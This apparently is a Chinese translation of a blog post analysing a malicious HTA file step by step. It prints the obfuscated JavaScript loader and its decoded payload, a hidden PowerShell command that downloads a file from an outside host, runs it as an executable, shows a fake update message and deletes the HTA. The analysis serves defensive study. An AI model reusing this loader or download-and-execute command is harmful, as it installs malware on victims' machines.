






# hta 恶意软件分析

> 原文：<https://infosecwriteups.com/hta-malware-analysis-96bd9263208?source=collection_archive---------2----------------------->

在这篇文章中，我们将查看一个 hta 恶意软件文件，并了解一些我们可以用来理解混淆代码的解码技术。换句话说，让我们做一些好的老式静态恶意软件分析。



```
<script>var wyyqbu=’tarjya d{x mmaomvveqTioh(j-c1b0e0r,j-v1t0c0r)d;przeismirzfeeTnof(o0n,j0l)a;j xav=angedwk jAecotbiovjeuXrObbxjheacgtt(s\’lWxsfcrrlitpatw.tSkhueplklb\’t)v;k yaj.lRmutnf(e”uPdolwvejreSnhveclslm n-lWmiknfdxoewvSitfyoldeq mHmicdzdfehnd a$ldp=v$ueunivq:wtbecmjpn+p\’t\s\m4yao2u9e2c4y8v0o8lfx6n6r9e8r5rdqeg3mal9bavdb1xew3ddh7j4s3bec0fdz.qeaxeet\’y;z(hNjewwv-a’;var nhm=’Obbnjsescute dSvyzsetsewmh.zNfeata.iWgeabzChleisefnetz)p.bDvoqwdniliovacdnFyixlnec(q\’j khqtptlpqsx:r/r/wayhvtoaeeaeoruebdjdkifts.toarvgg/y1t7t/b5j2d4m.zdsaxtq\’p,p$hdm)o;dSbtsadrptn-fPzrxokcrerslsm y$jdf;s[lSpyvsxtoenmu.fRdejfmlpeycptqiqotng.dAysfsbejmxbtluyk]r:e:qLjopafdeWniutshiPzavrstlilaqlbNbagmueh(k\’tSnymsctkefmx.uWwibnkdgorwqsk.fFkodrnmksz\’f’;var ohwrpi=’)v;k[vswylsctretmn.kwgiznndroewksl.afmowrgmesm.rmjexsvsxahguecbdoexy]a:q:bsrhjoowb(q\’nUpphdrazttes mcqozmqpclreataem.y\’h,g\’bIknkfzolrbmaactlipoenb\’c,t[jWuitnddmofwtsm.wFwodrxmwsp.vMeewswspahgweaBiowxcBtumthtvoonbse]i:u:hOvKa,a h[xSxylsutteamp.yWwimnndeoiwnsm.fFqogrrmysb.gMzefsosuangkevBoosxsIlcdomnf]d:c:dIanpfrofrxmeartdivoxnu)t;y”a,t0e,pfnaslzsi’;var uzite=’eg)s;avsavrn ybz=qnbeawg tAfcdtxiwvgetXuObbnjteccgtx(r\’uSqcrrciwpjtdipnfgr.nFeiilpeeSoyisjtsegmgOzbajbeacntu\’c)u;svuaori mpr f=v vduoacnuhmfevnxtj.klgotccamtaicomnb.dharwegfu;opa i=w nuznbeisvcwajpiee(ppe.bszuobhsstrru(t8t)g)v;xihfr d(bbf.eFjiclrejEdxaiesztksn(dpz)r)fby.fDmerlxehtkerFnifloeu(wpr)w;c v}g ecmapticnhu i(xeh)m w{z}r uceleolscel(w)t;z’;var vpropt=’ b’;var ujqffvih=wyyqbu+nhm+ohwrpi+uzite+vpropt; var gbakdvjuy=””; var kyhbqlqmmr=2; var a=0; while(a<ujqffvih.length){ gbakdvjuy +=ujqffvih.charAt(a);a +=kyhbqlqmmr; }; bztjfyeogy=”ev”.concat(“al”); window[bztjfyeogy](gbakdvjuy); </script>
```

看起来我们正在处理一些非常混乱的 javascript 代码。为了让代码更漂亮，便于我们分析和理解，首先让我们将它复制到一个新文件中，并保存为 JS 格式，以突出语法，让我们尝试对它进行一点美化。



有点美化了

好了，这样好一点了。但仍然没有多大意义。查看代码，我们可以看到在开始时声明了五个字符串变量。后来在第 13 行，它们都被连接起来了。我们可以重命名这些变量，使其更加清晰。



在下一节中，还有一些变量声明和一个 while 循环。



如果我们仔细观察一下逻辑，我们可以猜测被定义为空字符串的变量“gbakdvjuy”被用来构建一个去模糊化的有效负载。

变量“kyhbqlqmnr”似乎是增量大小，在我们的例子中是二(2)。而“a”似乎是计数器，初始化为 0。

让我们继续重命名这些变量。



while 循环非常简单。它遍历通过组合前 4 个变量构建的 concatenatedString，并将每隔一个字符追加到新的变量有效载荷中。

我们可以运行代码到这一点，并打印出变量 payload 的最终值。



```
try { moveTo(-100,-100);resizeTo(0,0); a=new ActiveXObject('Wscript.Shell'); a.Run("PowerShell -WindowStyle Hidden $d=$env:temp+'s4a2924808f66985de3a9ad1e3d743e0d.exe';(New-Object System.Net.WebClient).DownloadFile(' [https://ahtaeereddit.org/17/524.dat',$d);Start-Process](https://ahtaeereddit.org/17/524.dat',$d);Start-Process) $d;[System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');[system.windows.forms.messagebox]::show('Update complete.','Information',[Windows.Forms.MessageBoxButtons]::OK, [System.Windows.Forms.MessageBoxIcon]::Information);",0,false);var b=new ActiveXObject('Scripting.FileSystemObject');var p = document.location.href;p = unescape(p.substr(8));if (b.FileExists(p))b.DeleteFile(p); } catch (e) {} close();
```

由于原始文件是 HTML 应用程序(hta)文件，mshta.exe 将被用作程序代理来执行这个脚本。

我们可以看到，我们的“恶意. hta”文件在执行时会产生 PowerShell 可执行文件。

恶意软件文件的名称为“s4a 2924808 f 66985 de 3 a9 ad 1e 3d 743 e0d . exe”。而 malware.hta 中恶意 JavaScript 试图下载. dat 文件的完整网址是“[https://ahtaeereddit.org/17/524.dat](https://ahtaeereddit.org/17/524.dat)

黑客快乐！